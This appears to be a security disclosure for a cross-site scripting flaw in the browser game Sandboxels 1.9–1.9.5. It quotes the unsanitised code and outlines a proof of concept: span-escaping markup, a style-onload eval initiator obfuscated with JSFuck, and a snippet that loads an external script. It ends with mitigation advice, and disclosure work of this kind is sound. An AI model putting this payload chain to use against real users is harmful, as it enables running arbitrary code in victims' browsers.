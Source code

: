 # Cross-site scripting vulnerability for Sandboxels 1.9 - 1.9.5
This report details a cross-site scripting (XSS) vulnerability in Sandboxels (https://sandboxels.r74n.com/) affecting versions 1.9 to 1.9.5. The vulnerability can be exploited without requiring any game modifications.

## Vulnerability Overview
Sandboxels has a feature that lets some elements clone other pixels. Each cloning element (referred to as a "cloner") starts cloning the first pixel it touches. That pixel's element is displayed below the game canvas when hovering over the cloner.

## Exploit Details
Since version 1.9 which adds saves that can be manipulated in external programs and version 1.9.1 which adds a Prop tool, that property can be exploited to display arbitrary message below the game canvas. Since elements aren't verified or sanitized, that field can be exploited to execute JavaScript code (XSS):
```js
if (elements[currentPixel.element].hoverStat) {
    stats += "<span id='stat-hover' class='stat'>"+elements[currentPixel.element].hoverStat(currentPixel)+"</span>";
}
else if (currentPixel.clone) {
    stats += "<span id='stat-clone' class='stat'>"+currentPixel.clone.toUpperCase()+"</span>";
}
```
The uppercase value of the `clone` property is appended to the HTML code inside of `stats` div without any validation.

## Proof of concept
To manipulate the `clone` property of a pixel, the Prop tool is utilized. This tool allows players to change the properties of a pixel to any data without modifying the save file.

1. The attacker escapes the `<span>` tag using a `</span>` closing tag
2. The attacker injects JavaScript code using a known vulnerability, such as `<style onload=''></style>`. The injected code will function as an initiator: `eval(document.getElementById("1").innerHTML.toLowerCase())`
This code will turn any code found inside of an element with id of 1 into lowercase and run it.
Since the initiator code can't contain lowercase letters, a tool like [JSFuck](https://jsfuck.com/) should be used to remove such characters.
3. The attacker uses a `<p>` (or any other text-based tag) with an id of 1 to store the rest of the code. This code will be used to load an external script: `let a=document['createElement']('script');a.src='URL';document.head.append(a)`. Since this code will be turned into lowercase, it can't contain any uppercase characters, so a tool like JSFuck should be used to change any code that might contain such characters (such as 'createElement' in this case). That also mean that the URL can't contain such characters either.

### Steps to reproduce
1. Use the Prop tool in Sandboxels
2. Paste the code from `initiator.js` into browser's console
3. Use the Prop tool on some pixels
4. Hover over those pixels
5. Code from `test.js` should be executed

## Mitigation Recommendations
To prevents this XSS vulnerability, the following measures should be implemented:
* **Input Validation and Sanitization**: All inputs should be properly validated and sanitized, especially if they affect HTML content
* **Escape Output**: Any user-generated content should be escaped before inserting it into the DOM

By addressing these issues, the security of Sandboxels can be significantly improved, protecting users from potential XSS attacks.
